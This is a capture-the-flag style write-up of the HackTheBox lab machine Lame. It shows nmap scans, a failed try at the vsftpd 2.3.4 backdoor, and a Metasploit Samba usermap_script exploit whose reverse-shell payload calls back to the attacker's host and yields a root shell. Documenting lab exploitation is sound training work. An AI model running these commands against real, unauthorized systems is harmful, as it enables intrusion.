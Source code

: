 ```yaml
---
layout: post
title: HackTheBox | Lame
date: 2018-07-02 19:00:00 -0400
categories:
- hackthebox
description: Solutions for HackTheBox Lame
image:
  feature: assets/img/d46717d4d7d8c5948db7ca49cd3d2fbf.png
  credit: 
  creditlink: 
---
```

This writeup details attacking the machine Lame (10.10.10.3) on [HackTheBox](www.hackthebox.eu).

Enumeration
-----------
First things first, as with any machine, we want to nmap scan it to see what ports are open.  
```bash
root@kali:~/reboare.github.io/_posts# nmap -p- 10.10.10.3 -T4

Nmap scan report for 10.10.10.3
Host is up (0.062s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 437.65 seconds
```
So we have a bunch of ports open, the next step is to perform a more in depth scan on these ports.

```bash
root@kali:~/reboare.github.io/_posts# nmap -p 21,22,139,445,3632 10.10.10.3 -A

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:21 BST
Nmap scan report for 10.10.10.3
Host is up (0.17s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP
|_  System time: 2017-08-18T03:23:21-04:00

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   168.26 ms 10.10.14.1
2   251.04 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.89 seconds
```
THe first target that looks like it would be exploitable is the ftp server version, vsftpd 2.3.4.  For those who don't know, this version of vsftpd was compromised, not via the source code, but by an exploitable version being uploaded to the master site.  Exploiting it is as simple as sending a smiley-face ':)' as the username credential.  This will then open a shell on port 6200.  

However, a quick and dirty test reveals that this method doesn't work.
```bash
root@kali:~# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): :)
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
root@kali:~# nmap -p 6200 10.10.10.3

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:26 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
PORT     STATE    SERVICE
6200/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```
Since there was no fix to the source code, fixing this vulnerability didn't necessitate a version change.  This was just placed as a red-herring.

So with that failing lets attempt to attack the samba service.  We can see from the namp scan that it's running version 3.0.20, so lets check metasploit to see if anything pops up.

```bash
msf > search samba
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                            Disclosure Date  Rank       Description
   ----                                            ---------------  ----       -----------
   auxiliary/admin/smb/samba_symlink_traversal                      normal     Samba Symlink Directory Traversal
   auxiliary/dos/samba/lsa_addprivs_heap                            normal     Samba lsa_io_privilege_set Heap Overflow
   auxiliary/dos/samba/lsa_transnames_heap                          normal     Samba lsa_io_trans_names Heap Overflow
   auxiliary/dos/samba/read_nttrans_ea_list                         normal     Samba read_nttrans_ea_list Integer Overflow
   auxiliary/scanner/rsync/modules_list                             normal     List Rsync Modules
   auxiliary/scanner/smb/smb_uninit_cred                            normal     Samba _netr_ServerPasswordSet Uninitialized Credential State
   exploit/freebsd/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (*BSD x86)
   exploit/linux/samba/chain_reply                 2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/lsa_transnames_heap         2007-05-14       good       Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap          2012-04-10       normal     Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open                  2003-04-07       great      Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans                     2003-04-07       average    Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   exploit/multi/samba/usermap_script              2007-05-14       excellent  Samba "username map script" Command Execution
   exploit/osx/samba/lsa_transnames_heap           2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/osx/samba/trans2open                    2003-04-07       great      Samba trans2open Overflow (Mac OS X PPC)
   exploit/solaris/samba/lsa_transnames_heap       2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/solaris/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (Solaris SPARC)
   exploit/unix/misc/distcc_exec                   2002-02-01       excellent  DistCC Daemon Command Execution
   exploit/unix/webapp/citrix_access_gateway_exec  2010-12-21       excellent  Citrix Access Gateway Command Execution
   exploit/windows/fileformat/ms14_060_sandworm    2014-10-14       excellent  MS14-060 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/http/sambar6_search_results     2003-06-21       normal     Sambar 6 Search Results Buffer Overflow
   exploit/windows/license/calicclnt_getconfig     2005-03-02       average    Computer Associates License Client GETCONFIG Overflow
   exploit/windows/smb/group_policy_startup        2015-01-26       manual     Group Policy Script Execution From Shared Resource
   post/linux/gather/enum_configs                                   normal     Linux Gather Configurations
```
Quite a few exploits for samba, but doing some research reveals that samba/usermap_script targets versions `3.0.20 through 3.0.25rc3`.  So lets try that one.
```bash
msf > use exploit/multi/samba/usermap_script 
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(usermap_script) > set LHOST 10.10.13.126
LHOST => 10.10.13.126

msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.13.126:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo g2J1cK9h6SBFE0RL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "g2J1cK9h6SBFE0RL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.13.126:4444 -> 10.10.10.3:50926) at 2017-05-17 17:31:24 +0100
```
It works and we have a root shell.
